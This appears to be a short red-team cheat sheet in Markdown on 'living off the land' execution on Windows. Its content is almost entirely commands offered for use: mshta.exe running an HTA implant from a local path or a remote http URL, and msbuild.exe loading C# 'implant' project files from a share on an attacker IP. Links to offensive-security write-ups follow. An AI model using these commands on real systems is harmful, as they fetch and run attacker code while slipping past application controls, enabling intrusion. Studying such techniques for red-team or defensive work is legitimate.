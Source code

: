 # Living off the Land

## 01 - MSHTA

```
C:\> mshta.exe %CD%\implant.hta

C:\> mshta.exe <drive_letter>:\absolute\path\to\implant.hta

C:\> mshta.exe http[s]://<IP>/implant.hta
```

## 02 - MSBuild

Execute C# project implants.

```
C:\Windows\Microsoft.NET\Framework\v4.0.30319\msbuild.exe \\<attacker_IP>\implant.csproj

C:\Windows\Microsoft.NET\Framework\v4.0.30319\msbuild.exe \\<attacker_IP>\implant.xml
```

---
## References

### Backlinks

- [[DotNET Execution|Code Execution: MSBuild]]

### Red Team Notes

- [Red Team Notes: Code Execution](https://www.ired.team/offensive-security/code-execution)

### Sevagas

- [Sevagas: Hacking around HTA files](https://blog.sevagas.com/?Hacking-around-HTA-files)

### DMCXBlue

- [DMCXBlue Gitbook: HTA Files](https://dmcxblue.gitbook.io/red-team-notes-2-0/red-team-techniques/initial-access/t1566-phishing/phishing-spearphishing-link/links-hta-files)